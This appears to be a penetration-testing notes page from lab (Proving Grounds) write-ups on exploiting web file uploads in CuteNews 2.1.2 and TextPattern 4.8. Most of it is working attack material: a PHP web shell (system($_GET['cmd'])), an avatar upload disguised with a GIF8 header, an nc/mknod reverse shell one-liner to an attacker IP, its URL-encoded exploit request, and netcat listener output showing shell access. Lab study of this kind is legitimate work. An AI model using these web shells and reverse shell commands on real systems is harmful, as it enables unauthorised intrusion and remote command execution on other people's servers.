 ```yaml
---
layout: default
title: File Upload (Web)
parent: Web Exploits
nav_order: 4
---
```


# File Upload via Web UI

---

## CuteNews 2.1.2 - Authenticated Arbitrary File Upload

[Exploit Database CuteNews 2.1.2 exploit for authenticated arbitrary file upload.](https://www.exploit-db.com/exploits/48458)

Copy Pentest Monkey reverse shell to the current directory.
Edit to attach machine parameters and include _GIF8;_ at the top of the script.

![rev_shell](../../../../assets/images/ctfs/proving_grounds/bbscute/rev_shell.png)

Upload the file to the registered user's avatar.

![avatar](../../../../assets/images/ctfs/proving_grounds/bbscute/avatar.png)

As soon as we regresh the registered user's personal options page we have a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/bbscute]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.128] 52280
Linux cute.calipendula 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 03:15:02 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## TextPattern CMS 4.8

Reviewing _searchsploit_ for exploits on _Textpattern 4.8_ we have the following options:

```bash
# Exploit Title : TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)
# Date : 2021/09/06
# Exploit Author : Mert Da<C5><9F> merterpreter@gmail.com
# Software Link : https://textpattern.com/file_download/113/textpattern-4.8.7.zip
# Software web : https://textpattern.com/
# Tested on: Server : Xampp

First of all we should use file upload section to upload our shell.
Our shell contains this malicious code: <?PHP system($_GET['cmd']);?>

1) Go to content section .
2) Click Files and upload malicious php file.
3) go to yourserver/textpattern/files/yourphp.php?cmd=yourcode;

After upload our file , our request and respons is like below :

```

Create PHP CMD shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ vim cmd.php

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ cat cmd.php
<?php

system($_GET['cmd'])

?>

```

Upload to the target.

![upload](../../../../assets/images/ctfs/proving_grounds/driftingblues6/upload.png)

Run a test command and verify RCE.

![cmd](../../../../assets/images/ctfs/proving_grounds/driftingblues6/cmd.png)

Use _revshellgen_ to generate a bash one-liner on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Execute the following URL

URL: http://192.168.160.219/textpattern/files/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Get a reverse shell

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.160.219] 33206
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
